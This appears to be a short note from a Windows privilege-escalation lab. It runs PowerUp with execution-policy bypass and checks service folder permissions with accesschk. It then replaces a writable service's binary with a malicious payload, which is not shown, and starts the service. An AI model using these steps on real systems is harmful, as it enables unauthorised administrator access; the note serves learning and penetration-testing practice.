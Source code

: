 ### Check for executable files with PowerUp
Open the command prompt in the powerup directory and run
```powershell
# Open Powershell
powershell -ep bypass

# Run PowerUp
. .\PowerUp.ps1

# Invoke powerup
Invoke-AllChecks
```

You can see the output as following
![[Pasted image 20210718165731.png]]

### Check with Access Chk
Run the command
```powershell
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```

![[Pasted image 20210718170023.png]]

### Running Malicious Script
Now that we have a service to exploit. Simple copy the previous c code that we used to gain access with registry and replace it with the vulnerable service here

[[009 - Escalation Path Registry#^db55e3]]

Now start the service in our case it is "filepermsvc"
```powershell
sc start filepermsvc
```